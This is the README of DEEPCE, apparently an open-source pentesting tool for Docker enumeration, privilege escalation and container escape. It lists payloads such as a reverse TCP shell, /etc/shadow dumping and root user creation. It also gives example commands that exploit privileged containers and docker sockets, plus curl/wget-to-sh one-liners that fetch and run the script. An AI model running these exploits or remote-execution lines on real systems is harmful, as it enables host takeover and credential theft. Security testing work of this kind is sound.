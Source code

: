 # deepce

```
                      ##         .
                ## ## ##        ==
             ## ## ## ##       ===
         /"""""""""""""""""\___/ ===
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
         \______ X           __/
           \    \         __/
            \____\_______/
          __                        
     ____/ /__  ___  ____  ________ 
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/
```

![ShellCheck](https://github.com/stealthcopter/deepce/workflows/ShellCheck/badge.svg)
![ContainerTests](https://github.com/stealthcopter/deepce/workflows/ContainerTests/badge.svg)

[Website](https://stealthcopter.github.io/deepce/)

Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)

In order for it to be compatible with the maximum number of containers DEEPCE is written in pure `sh` with no dependencies. It will make use of additional tools such as curl, nmap, nslookup and dig if available but for the most part is not reliant upon them for enumeration.

None of the enumeration should touch the disk, however most of the exploits create new containers which will cause disk writes, and some exploits will overwrite runC which can be destructive, so be careful!

Please see below for a list of the enumerations, exploits and payloads DEEPCE can use. If you have ideas for anymore please submit an issue in github!

# Downloading

DEEPCE can be downloaded onto a host or container using one of the following one-liners. Tip: download to `/dev/shm` to avoid touching the disk.

```bash
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content.decode("utf-8"))' > deepce.sh  
```

# Screenshots
For more please view the [docs folder](https://github.com/stealthcopter/deepce/tree/main/docs)
![screenshot1](docs/images/ubuntu-install-tools.png "Screenshot 1")

## Enumerations

The following is the list of enumerations performed by DEEPCE. 

- Container ID & name (via reverse dns)
- Container IP / DNS Server
- Docker Version
- Interesting mounts
- Passwords in common files
- Environment variables
- Password hashes
- Common sensitive files stored in containers
- Other containers on same network
- Port scan other containers, and the host machine itself
- Find exposed docker sock

## Exploits

- Docker Group Privilege Escalation
- Privileged mode host command execution
- Exposed Docker Sock

## Payloads

For each of the exploits above payloads can be defined in order to exploit the host system. These include:

- Reverse TCP shell
- Print /etc/shadow
- Add new root user
- Run custom commands

# Examples
```bash
# Make the script executable and then run it
chmod +x ./deepce.sh
./deepce.sh 
```

## Exploits
The following examples show the different kinds of exploits that can be performed and the avaliable payloads.

- Exploit a privileged container to create a new root user on the host operating system:
```bash
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```

- Exploit a writable docker sock file in order to print the contents of `/etc/shadow`
```bash
./deepce.sh --no-enumeration --exploit SOCK --shadow
```

- Escalate to root via membership to the docker group on a host and run a custom payload
```bash
./deepce.sh --no-enumeration --exploit DOCKER --command "whoami>/tmp/hacked"
```

# Advanced Usage

It is possible to download and run deepce without touching the disk, however you will be unable to easily set arguments (direct manipulation of variables is possible using export).

```bash
wget -O - https://github.com/stealthcopter/deepce/raw/main/deepce.sh | sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh | sh
```

# Inspiration

There are some great container enumeration/escape scripts and enumeration tools that I've got inspiration from when writing this. However I felt the need to write one purely in `sh` in order to avoid having to install go / ruby dependencies or be reliant on a static binary. I also wanted to be able to perform more enumerations to try to discover what the docker container is as during as test we may end up inside an unknown container. The number of things this script can enumerate got away from me as every time I added something new I thought of more additional things I could add.

- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [BotB](https://github.com/brompwnie/botb)
- [Harpoon](https://github.com/ProfessionallyEvil/harpoon)

# Resources

Developers looking for Docker security tips
https://github.com/OWASP/CheatSheetSeries/blob/main/cheatsheets/Docker_Security_Cheat_Sheet.md


# Contributing

I welcome pull requests, issues and feedback.

- Fork it
- Create your feature branch (git checkout -b my-new-feature)
- Commit your changes (git commit -am 'Added some feature')
- Push to the branch (git push origin my-new-feature)
- Create new Pull Request
